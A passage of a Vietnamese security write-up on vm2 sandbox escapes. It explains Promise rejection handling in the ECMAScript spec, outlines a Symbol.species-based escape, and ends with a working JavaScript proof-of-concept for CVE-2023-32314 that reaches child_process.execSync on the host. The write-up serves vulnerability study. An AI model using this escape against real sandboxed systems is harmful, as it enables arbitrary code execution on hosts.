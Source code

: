 ```
    g. Assert: promiseCapability is a PromiseCapability Record.
    h. **If handlerResult is an abrupt completion, then**
        i. **Return ? Call(promiseCapability.[[Reject]], undefined, « handlerResult.[[Value]] »).**
    i. Else,
        i. Return ? Call(promiseCapability.[[Resolve]], undefined, « handlerResult.[[Value]] »).
```

Ta sẽ chú ý đến các đoạn d.ii, h.i

Nếu `handler` không là rỗng và type là Reject (nghĩa là promise đang bị từ chối), thì handlerResult sẽ được gán là một hoàn thành kiểu ném lỗi của argument. Điều này thể hiện việc promise đã bị từ chối.

Sau đó là 

Nếu `handlerResult` là một hoàn thành đột ngột(abrupt completion), thì

Trả về ? Call(promiseCapability.[[Reject]], undefined, « handlerResult.[[Value]] »).

Nếu handlerResult là một hoàn thành đột ngột (nghĩa là xảy ra lỗi trong quá trình xử lý), thì cần phải gọi hàm Reject của promiseCapability với giá trị lỗi từ handlerResult.

Vậy từ tất cả thứ trên, tóm lại ta có thể escape sandbox như sau:

1. Gọi một function bất đồng bộ để nó throw ra trạng thái bất thường ở máy chính, trả về rejected Promise object
2. Ta sẽ ghi đè constructor của Promise object với thuộc tính của @@species (Symbol.species) với giá trị là executor thừa hưởng từ lớp cha và gọi với 2 hàm xử lý `resolve` và `reject`(ta bỏ payload vào đây)
3. Gọi `then` để trigger `Call(promiseCapability.[[Reject]], undefined, « handlerResult.[[Value]] »).` và ez RCE

### CVE-2023-32314
```
A sandbox escape vulnerability exists in vm2 for versions up to 3.9.17. It abuses an unexpected creation of a host object based on the specification of Proxy, and allows RCE via Function in the host context.
```

POC

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo hacked").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```
